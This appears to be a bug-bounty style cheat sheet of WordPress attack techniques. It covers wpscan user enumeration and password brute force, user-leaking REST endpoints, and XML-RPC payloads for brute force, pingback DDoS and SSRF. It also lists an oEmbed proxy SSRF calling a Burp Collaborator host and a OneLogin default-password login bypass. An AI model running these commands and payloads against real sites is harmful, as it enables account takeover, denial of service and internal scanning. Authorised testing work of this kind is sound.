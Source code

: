 #### TOOLS 
- wpscan
  ````
  wpscan --url https://blog.com --enumerate u   ==> user enumeration
  wpscan  -U users.txt -P password.txt  --url https://blog.com
  ````

#### WP-USER ENUMERATION
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff
````
- wp-json/wp/v2/users/
- wp-json/wp/v2/pages  ===> could leak ip addresses
- ?rest_route=/wp/v2/users
You will see json data with user info in response
````
### Bruteforce for password
`wpscan --url http://10.10.23.231/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt  --max-threads 100`

#### xmlrpc.php
send the post request with the following data
- LIST ALL THE METHODS
````
                <?xml version="1.0" encoding="utf-8"?>
                <methodCall> 
                <methodName>system.listMethods</methodName> 
                <params></params> 
                </methodCall>

````
- Check the pingback.ping method is there or not. Perform DDOS
````
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
````
- Perform SSRF (Internal PORT scan only)
````
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
````
- Bruteforce login credentials
  ```
  <methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
  <param><value>admin</value></param>
  <param><value>pass</value></param>
  </params>
  </methodCall>
  ```
#### CREATE DATABASE
- /wp-admin/setup-config.php?step=1  ===> may give access to create new database if they forgot to configure the database 
 #### Log files exposed
- wp-content/debug.log

#### ssrf through endpoint
- Try to access https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net and the Worpress site may make a request to you.

 ### Is the wordpress using onelogin plugin to allow saml based login? The plugin by default block login using wp-login.php?normal=1 but attacker can use xmlrpc.php to login.
 When a user logs on one of your WordPress sites via OneLogin, the authentication plugin creates a new entry in the WordPress user database with the default password @@@nopass@@@. This wouldn't be a problem if the plugin disabled all normal WordPress authentication methods, but it doesn't. Then try login using those credentials via xmlrpc.php
  ```
  attacker can create new post and can do many other functions too
  check out this hackerone report==> https://hackerone.com/reports/138869
  ```
